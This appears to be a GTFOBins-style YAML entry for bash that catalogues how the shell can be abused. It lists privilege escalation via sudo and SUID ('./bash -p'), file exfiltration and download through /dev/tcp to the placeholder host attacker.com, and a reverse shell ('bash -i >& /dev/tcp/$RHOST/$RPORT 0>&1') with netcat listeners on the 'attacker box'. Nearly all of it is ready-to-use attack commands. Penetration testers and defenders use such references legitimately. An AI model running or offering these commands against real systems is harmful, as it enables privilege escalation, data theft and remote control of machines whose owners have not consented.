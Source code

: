 ```yaml
---
functions:
  exec-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |-
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
---
```

